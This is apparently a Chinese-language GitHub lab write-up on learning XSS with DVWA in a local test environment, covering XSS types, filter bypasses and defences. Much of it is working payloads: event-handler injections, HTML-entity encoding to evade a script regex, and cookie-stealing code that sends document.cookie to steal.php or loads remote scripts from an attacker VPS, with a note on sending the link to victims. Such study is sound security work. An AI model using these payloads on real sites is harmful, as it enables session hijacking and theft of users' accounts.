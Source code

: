 ## dvwa学习xss

### 测试环境

win7虚拟机 ，ip 192.168.255.151，用phpstudy将dvwa 环境 搭在 8081端口

一台物理机，ip 192.168.1.101,作为我的vps，用于获取xss返回的cookie,用phpstudy搭建的环境，808端口存有 cookie.js，steal.php等文件

火狐浏览器，谷歌浏览器有 xss filter

文件说明：

cookie.js 为获取cookie的js,没使用ajax，会跳转到密码修改成功页面，不推荐使用。

b.js 为js操作ajax，支持最为广泛，payload 代码量较少。

c.js 为jq操作ajax，需要payload引入支持jq的js，payload 较长。

搭建数据库sql：

```

	create database dvwacookie;
	
	use dvwacookie;
	
	create table low(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table medium(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table high(id int not null auto_increment primary key,cookie varchar(100) not null);

```


### 参考资料

[新手科普 通过DVWA学习XSS](https://www.freebuf.com/articles/web/157953.html)

[针对不同标签的xss利用汇总](https://www.cnblogs.com/xiaozi/p/5588099.html)

[xssbypass](https://d3adend.org/xss/ghettoBypass)

[xss变形](https://www.jb51.net/tools/xss.htm)


### xss介绍

WEB前端中最常见的两种安全风险，XSS与CSRF，XSS，即跨站脚本攻击、CSRF即跨站请求伪造,两者属于跨域安全攻击。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

xss分为 存储型，反射型，dom型。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

存储型xss 通过留言板等输入框注入的脚本存在于靶机服务器的数据库中

反射性xss 利用脚本与服务器交互，绕过限制

DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。

简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

DOM型XSS是前端代码中存在了漏洞，而反射型和存储型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### xss危害

获取到用户的cookie信息或者劫持用户跳转到钓鱼网站
 

### 专用扫描工具

XSSER,XSSF等

工具扫描效率高存在误报，不如手动扫描准确。

### xss利用


#### 注入方式

1双写绕过

2大小写混淆绕过

3虽然无法使用```<script>```标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

	<iframe src=1 onload='alert(1)' /><iframe>

	<iframe src=1 onmouseover=alert('xss') y=2016 /><iframe>
	
	<iframe src="../csrf" onload='alert(frames[0].document.getElementsByName("user_token")[0].value)'>

	<img src=1 onerror=alert(/xss/)>

	<body onload='alert(/xss/)'</body>

	<svg onload=alert("xss")>
	
```

4 dom xss 注入

4.1 标签闭合  （会破坏页面结构，隐蔽性不如注释方法）

```></option></select><img src=1 onerror=alert('hack')>```

```</option></select><svg onload=alert("xss")>```
 
4.2  注释

``` #<script src=http://192.168.1.101:808/b.js></script>``` 
\#会注释掉，后面的内容不会发送到后台

5. 存储型和反射型xss

为了绕过  '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'  正则，

可将插入代码中的i进行html字符实体编码以绕过正则

```<img src=# onerror=(locat&#x69;on.href="http://192.168.1.101:8081/steal.php?data="+document.cookie)>```

直接跳转到steal.php

[**html字符 转换 字符实体在线编码**](https://www.qqxiuzi.cn/bianma/zifushiti.php)

在python 中解码函数 print (html.unescape('&#20013;&#22269;'))


js操作ajax(注入字符过多，不推荐)

```
	<img src=# onerror='var url="http://192.168.1.101:808/steal.php";var postStr="data="+document.cook&#x69;e;var ajax=null;&#x69;f(w&#x69;ndow.XMLHttpRequest){ajax=new XMLHttpRequest();}else &#x69;f(w&#x69;ndow.Act&#x69;veXObject){ajax=new Act&#x69;veXObject("M&#x69;crosoft.XMLHTTP");}else{ajax=null;}ajax.open("POST",url,true);ajax.setRequestHeader("Content-Type", "appl&#x69;cat&#x69;on/x-www-form-urlencoded");ajax.send(postStr);'>
```

jq操作ajax(注入字符过多，不推荐)(这里使用短链接会异常，应该是浏览器解析dom的问题)

```
	<img src=# onerror="var a=document.createElement('scr&#x69;pt');a.setAttr&#x69;bute('src', 'https://dwz.cn/tA0Ob030');document.getElementsByTagName('head')[0].appendCh&#x69;ld(a);var b= document.createElement('scr&#x69;pt'); b.setAttr&#x69;bute('src','http://192.168.1.101:808/c.js');document.getElementsByTagName('head')[0].appendChild(b);">
```

```ALTER TABLE guestbook MODIFY name VARCHAR(180);```

**js操作原生态ajax,不用引用jquery，最节省代码**,171字符

```	
	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/b.js');
	document.getElementsByTagName('head')[0].appendChild(b);">
```

6.限制输入字符长度的浏览器注入方法

chrome: F12 ，Elements , 选定元素，Edit as HTML

firefox:F12 ，inspector/查看器，编辑html， 修改 maxlength

7.记录cookie

	<img src=# onerror=(location.href="http://192.168.1.101:808/steal.php?data="+document.cookie)>


这种方式有个缺点就是将cookie发送到steal.php后他会刷新页面跳转到steal.php，所以要用ajax优化

在有xss漏洞的位置插入:


```<script src=http://192.168.1.101:808/cookie.js></script>```

相当于构造链接:

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/xss_r/?name=<script src=http://192.168.1.101:808/cookie.js></script>```

也可以用jquery操作ajax，但是需要引入头文件例如 ```https://cdn.bootcss.com/jquery/1.10.2/jquery.min.js```

[**百度短网址**](https://dwz.cn/)

```<script src=https://dwz.cn/tA0Ob030></script><script src=http://192.168.1.101:808/c.js></script>```   成功跨域获取cookie,压缩到刚好100字节(还可以服务器使用80端口继续压缩字节)

**将链接发给该网站下的受害者，受害者点击时就会加载远程服务器（vps）上的cookie.js脚本，这里要提一点，用src加载远程服务器的js脚本，那么js的源就会变成加载它的域，从而可以读取该域的数据。这时，vps的数据库就接收到了cookie。**

观察firebug的javascript控制台，看到已拦截跨源请求：同源策略禁止读取位于 ```http://192.168.1.101:808/steal.php``` 的远程资源。（原因：CORS 头缺少 'Access-Control-Allow-Origin'）

因为ajax严格遵从同源策略，当前加载cookie.js的域为```http://192.168.255.151:8081```,所以ajax不能读取不同域```http://192.168.1.101```下的数据，但是cookie已经被发送到了```http://192.168.1.101```域，steal.php已经将偷取到的cookie存放在了数据库中,而且页面没有刷新，很隐蔽。



### xss反制

htmlspecialchars 把预定义的字符&、”、 ’、<、>转换为 HTML 实体，防止浏览器将其作为HTML元素。转义可能引起跨站漏洞的标签

http层做到防护，给cookie设置httponly属性，使cookie不能被javascript读取，才能有效防止用户cookie被盗用的问题